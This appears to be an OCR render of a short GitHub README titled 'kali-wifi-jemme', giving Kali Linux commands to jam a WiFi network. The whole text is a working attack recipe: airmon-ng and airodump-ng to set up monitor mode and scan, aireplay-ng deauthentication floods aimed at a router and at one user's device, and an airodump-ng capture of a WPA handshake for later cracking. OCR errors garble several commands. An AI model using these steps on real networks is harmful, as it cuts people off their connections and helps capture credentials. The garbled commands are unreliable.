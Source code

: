 # kali-wifi-jemme
13. How to Jam a WiFi and Disconnect Any User From

WIFi Router.

sudo airmon-ng start wlan0

sudo airmon-ng check kill

sudo airodump-ng wlan0mon

sudo airmon-ng start wlan0mon 11

sudo aireplay-ng -0 0 -a C6:25:06:57:99:0E wlan0mon

sudo airodump-ng -c 11-bssid C6:25:06:57:99:0E

wlanOmon

sudo aireplay-ng-0 0-a C6:25:06:57:99:0E -c 90:C1:15:1C:

85:C0 wlanOmon
### hand shink file comand ###
airodump-ng --bssid    -c 7 -w /home/kali/hacdsek.cap wlan0mom
